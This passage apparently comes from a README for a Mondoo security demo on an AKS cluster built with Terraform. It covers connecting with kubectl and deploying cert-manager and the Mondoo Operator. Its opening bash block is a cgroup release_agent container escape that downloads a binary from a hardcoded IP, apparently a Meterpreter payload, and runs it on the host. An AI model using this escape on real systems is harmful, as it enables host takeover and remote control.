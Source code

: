 ```bash
mkdir -p /tmp/cgrp && mount -t cgroup -o memory cgroup /tmp/cgrp && mkdir -p /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
echo "$(sed -n 's/.*\upperdir=\([^,]*\).*/\1/p' /proc/mounts)/cmd" > /tmp/cgrp/release_agent
echo '#!/bin/sh' > /cmd
echo "curl -vk http://13.92.179.31:8001/met-host -o /tmp/met" >> /cmd
echo "chmod 777 /tmp/met" >> /cmd
echo "/tmp/met" >> /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"

EOT
tls_private_key = <sensitive>
```

## Connect to the cluster

After Terraform finishes provisioning, you find your `aks-kubeconfig` Kubeconfig in the folder to connect to your AKS cluster:

Configure kubectl to use the aks-kubeconfig to connect to your AKS cluster

```bash
export KUBECONFIG="${PWD}/aks-kubeconfig"
```

```bash
kubectl get nodes
NAME                              STATUS   ROLES   AGE   VERSION
aks-default-41472297-vmss000000   Ready    agent   24m   v1.22.11
aks-default-41472297-vmss000001   Ready    agent   24m   v1.22.11
```

## Deploy Mondoo Operator to AKS

Deploy the Mondoo Operator to the AKS cluster according the manual [https://mondoo.com/docs/platform/cloud/kubernetes/scan-kubernetes-with-operator/](https://mondoo.com/docs/platform/cloud/kubernetes/scan-kubernetes-with-operator/)

### Deploy cert-manager

At first deploy the cert-manager from [https://cert-manager.io/docs/installation/](https://cert-manager.io/docs/installation/):

```bash
kubectl apply -f https://github.com/cert-manager/cert-manager/releases/download/v1.11.0/cert-manager.yaml
```

### Deploy Mondoo Operator

Create a Kubernetes Integration in the Mondoo Dashboard [https://console.mondoo.com/](https://console.mondoo.com/).

